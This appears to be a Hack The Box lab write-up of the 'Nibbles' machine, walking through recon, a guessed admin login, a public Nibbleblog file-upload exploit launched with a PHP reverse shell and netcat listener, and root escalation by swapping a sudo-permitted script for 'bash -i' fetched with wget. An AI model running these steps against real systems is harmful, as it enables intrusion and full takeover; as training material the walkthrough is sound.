**Start 17:52 24-08-2024**

---
```
10.10.10.75
```
## Recon

### Nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -p1-100 10.10.10.75      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 16:52 IST
Nmap scan report for 10.10.10.75
Host is up (0.087s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.85 seconds
```

I added the webserver to my `/etc/hosts` under `nibbles.htb` and went searching.

### 80/TCP - HTTP



This is the only thing that popped up, but when I viewed the page source I found another sub-directory:



So I went to that endpoint to check it out.




After finding this sub-directory I decided to enumerate further using `dirsearch`, here I got the following output:

```bash
└─$ dirsearch -u http://nibbles.htb/nibbleblog/ -x 403,404,400
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: 

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

[17:01:55] Starting: nibbleblog/
[17:02:07] 301 -  321B  - /nibbleblog/admin  ->  http://nibbles.htb/nibbleblog/admin/
[17:02:07] 200 -  606B  - /nibbleblog/admin.php                             
[17:02:07] 200 -  516B  - /nibbleblog/admin/                                
[17:02:08] 301 -  332B  - /nibbleblog/admin/js/tinymce  ->  http://nibbles.htb/nibbleblog/admin/js/tinymce/
[17:02:08] 200 -  563B  - /nibbleblog/admin/js/tinymce/
[17:02:19] 200 -  485B  - /nibbleblog/content/                              
[17:02:19] 301 -  323B  - /nibbleblog/content  ->  http://nibbles.htb/nibbleblog/content/
[17:02:19] 200 -  724B  - /nibbleblog/COPYRIGHT.txt                         
[17:02:29] 200 -   92B  - /nibbleblog/install.php                           
[17:02:29] 200 -   92B  - /nibbleblog/install.php?profile=default           
[17:02:30] 301 -  325B  - /nibbleblog/languages  ->  http://nibbles.htb/nibbleblog/languages/
[17:02:31] 200 -   12KB - /nibbleblog/LICENSE.txt                           
[17:02:42] 301 -  323B  - /nibbleblog/plugins  ->  http://nibbles.htb/nibbleblog/plugins/
[17:02:42] 200 -  694B  - /nibbleblog/plugins/
[17:02:45] 200 -    5KB - /nibbleblog/README                                
[17:02:53] 301 -  322B  - /nibbleblog/themes  ->  http://nibbles.htb/nibbleblog/themes/
[17:02:53] 200 -  498B  - /nibbleblog/themes/                               
[17:02:54] 200 -  815B  - /nibbleblog/update.php
```

Right away I noticed that on `/admin` there was a login screen but what was more interesting to me was the `README` endpoint:



When I enumerated the directories further I got some other endpoints which I could check out:

```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://nibbles.htb/nibbleblog/content/ -x 403,404,400
  _|. _ _  _  _  _ _|_    v0.4.3                                                 
 (_||| _) (/_(_|| (_| )               
  
Target: http://nibbles.htb/

[17:14:17] Starting: nibbleblog/content/                                          
[17:15:01] 301 -  331B  - /nibbleblog/content/private  ->  http://nibbles.htb/nibbleblog/content/private/
[17:15:01] 301 -  330B  - /nibbleblog/content/public  ->  http://nibbles.htb/nibbleblog/content/public/
[17:15:01] 200 -  504B  - /nibbleblog/content/public/                       
[17:15:10] 200 -  412B  - /nibbleblog/content/tmp/                          
[17:15:10] 301 -  327B  - /nibbleblog/content/tmp  ->  http://nibbles.htb/nibbleblog/content/tmp/

Task Completed  
```



I then went to the `/nibbleblog/content/private/users.xml` directory and found this:



By random guesswork I found the credentials to be `admin - nibbles`.

## Manual Exploitation

### CVE-2015-6967
Using the following [Google Dork](Google%20Dorking.md) I was able to find an [Arbitrary File Upload](https://github.com/dix0nym/CVE-2015-6967) exploit for this version:

```bash
# Google Dork
site:github.com CVE-2015 Nibbleblog 4.0.3
```



I then downloaded the exploit, set up my `php reverse shell` and a listener, and then run the exploit:



```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234                                 
listening on [any] 1234 ...
```

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
[+] Login Successful.
[+] Upload likely successfull.
```

And we see a shell return:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234                                 
listening on [any] 1234 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.75] 37790
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 13:00:06 up  5:26,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
$
```

Before continuing on I stabilize the shell:

```bash
$ script /dev/null -c bash
Script started, file is /dev/null
nibbler@Nibbles:/$ 
```


### user.txt
As the `nibbler` user we go to `/home/nibbler` where we find the first flag:

```bash
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
f5c92f5e72ffd933e8c45a46b109cc5b
```


## Privilege Escalation

I run `sudo -l` to gather `OS info` and find the following:

```bash
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Apparently we can run `/monitor.sh` as `root`!
In order to get to the file I `unzipped` the `personal.zip` folder and moved towards the `monitor.sh` file where we apparently have full `RWX` permissions:

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

This  means we can just go ahead and modify the file to our content. I decided to go ahead and `rm` the `monitor.sh` file and instead make my own super simple file and upload it using `wget`.

```bash
# monitor.sh

bash -i
```

```bash
chmod +x monitor.sh
```

I then started up a `python` server:

```bash
python3 -m http.server 80
```

And on the target machine executed the following command:

```bash
wget http://10.10.14.5/monitor.sh
```



I had to `chmod +x` the file again for some reason:



### root.txt

From here it's easy peasy:

```bash
root@Nibbles:/home/nibbler/personal/stuff# cat /root/root.txt
cat /root/root.txt
b58405fd17f79892e84c03ecbbc1925b
```




---

**Finished 19:16 24-08-2024**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
